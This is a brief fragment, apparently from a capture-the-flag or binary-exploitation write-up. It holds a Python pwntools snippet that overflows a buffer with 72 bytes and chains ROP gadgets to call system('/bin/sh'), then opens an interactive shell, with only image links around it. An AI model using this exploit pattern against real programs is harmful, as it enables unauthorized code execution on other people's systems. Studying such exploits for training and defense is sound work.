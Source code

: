 ```python
payload = 'a'*72 + p64(rdi_ret) + p64(binsh) + p64(system) + p64(stop_gadget)
p.sendline(payload)
p.interactive()
```

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1598355794910-2cbb0061-e339-459f-a624-b07bb097d825.png)





